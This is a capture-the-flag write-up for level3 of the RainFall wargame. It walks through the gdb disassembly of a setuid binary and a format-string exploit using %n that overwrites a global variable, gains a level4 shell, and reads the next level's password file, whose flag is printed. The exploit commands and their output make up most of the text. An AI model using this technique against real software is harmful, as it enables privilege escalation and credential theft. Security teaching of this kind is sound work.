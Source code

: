 # level3

- We login as user level3:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3
```

```
level3@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3

level3@RainFall:~$ gdb level3
```

```
(gdb) disas main
Dump of assembler code for function main:
   0x0804851a <+0>:     push   %ebp
   0x0804851b <+1>:     mov    %esp,%ebp
   0x0804851d <+3>:     and    $0xfffffff0,%esp
   0x08048520 <+6>:     call   0x80484a4 <v>
   0x08048525 <+11>:    leave
   0x08048526 <+12>:    ret
End of assembler dump.
```

```
(gdb) disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     sub    $0x218,%esp
   0x080484ad <+9>:     mov    0x8049860,%eax
   0x080484b2 <+14>:    mov    %eax,0x8(%esp)
   0x080484b6 <+18>:    movl   $0x200,0x4(%esp)
   0x080484be <+26>:    lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:    mov    %eax,(%esp)
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:    lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:    mov    %eax,(%esp)
   0x080484d5 <+49>:    call   0x8048390 <printf@plt>
   0x080484da <+54>:    mov    0x804988c,%eax
   0x080484df <+59>:    cmp    $0x40,%eax
   0x080484e2 <+62>:    jne    0x8048518 <v+116>
   0x080484e4 <+64>:    mov    0x8049880,%eax
   0x080484e9 <+69>:    mov    %eax,%edx
   0x080484eb <+71>:    mov    $0x8048600,%eax
   0x080484f0 <+76>:    mov    %edx,0xc(%esp)
   0x080484f4 <+80>:    movl   $0xc,0x8(%esp)
   0x080484fc <+88>:    movl   $0x1,0x4(%esp)
   0x08048504 <+96>:    mov    %eax,(%esp)
   0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:   movl   $0x804860d,(%esp)
   0x08048513 <+111>:   call   0x80483c0 <system@plt>
   0x08048518 <+116>:   leave
   0x08048519 <+117>:   ret
End of assembler dump.
```


- Let's identify the calls and jump:
```
   0x080484ad <+9>:     mov    0x8049860,%eax
   0x080484b2 <+14>:    mov    %eax,0x8(%esp)
   0x080484b6 <+18>:    movl   $0x200,0x4(%esp)
   0x080484be <+26>:    lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:    mov    %eax,(%esp)
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>
```
>`0x8049860 <stdin@@GLIBC_2.0>:   0xb7fd1ac0`
>buffer size is 0x200 bytes
>buffer starts at `-0x208(%ebp)`
>Prompt the user for up to 512 bytes.

```
   0x080484cc <+40>:    lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:    mov    %eax,(%esp)
   0x080484d5 <+49>:    call   0x8048390 <printf@plt>
```
>Call `<printf@plt>` with our buffer as first parameter.

```
   0x080484da <+54>:    mov    0x804988c,%eax
   0x080484df <+59>:    cmp    $0x40,%eax
   0x080484e2 <+62>:    jne    0x8048518 <v+116>
```
>`0x804988c <m>:  0x00000000`
>After the call to `<printf@plt>`, compare the value located at `0x804988c` with the constant 0x40 (64 in decimal). If the two values differ, we `leave` and then `ret`, otherwise we continue.

```
   0x080484e4 <+64>:    mov    0x8049880,%eax
   0x080484e9 <+69>:    mov    %eax,%edx
   0x080484eb <+71>:    mov    $0x8048600,%eax
   0x080484f0 <+76>:    mov    %edx,0xc(%esp)
   0x080484f4 <+80>:    movl   $0xc,0x8(%esp)
   0x080484fc <+88>:    movl   $0x1,0x4(%esp)
   0x08048504 <+96>:    mov    %eax,(%esp)
   0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>
```
>`0x8049880 <stdout@@GLIBC_2.0>:  0xb7fd1a20`
>`0x8048600:       "Wait what?!\n"`
>Print `"Wait what?!\n"` into `<stdout>`.

```
   0x0804850c <+104>:   movl   $0x804860d,(%esp)
   0x08048513 <+111>:   call   0x80483c0 <system@plt>
```
>`0x804860d:       "/bin/sh"`
>Open a terminal.


- This exercice is an introduction to [format string exploit](https://axcheron.github.io/exploit-101-format-strings/).
The content of our buffer is used as first parameter of the `<printf@plt>` function, so we can read/write anything from/to the stack.
```
level3@RainFall:~$ echo -ne 'BBBB %x %x %x %x %x \n' | ./level3
BBBB 200 b7fd1ac0 b7ff37d0 42424242 20782520
```

```
level3@RainFall:~$ echo -ne 'BBBB %4$x \n' | ./level3
BBBB 42424242
```

```
level3@RainFall:~$ echo -ne '\x8c\x98\x04\x08 %4$x \n' | ./level3
 804988c
```


- With `<printf@plt>`, `%x` allows us to display a hexadecimal value, and `%n` allows us to assign a value to an address that corresponds to the number of characters written so far, so:
```
level3@RainFall:~$ gdb level3
...
(gdb) b*0x080484df
```

```
(gdb) r < <(echo -ne '\x8c\x98\x04\x08 %4$n \n')
...
(gdb) x/d 0x804988c
0x804988c <m>:  5
```

```
(gdb) r < <(echo -ne '\x8c\x98\x04\x08 %58x %4$n \n')
...
(gdb) x/d 0x804988c
0x804988c <m>:  64
```

```
level3@RainFall:~$ (echo -ne '\x8c\x98\x04\x08 %58x %4$n \n'; cat) | ./level3
...
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```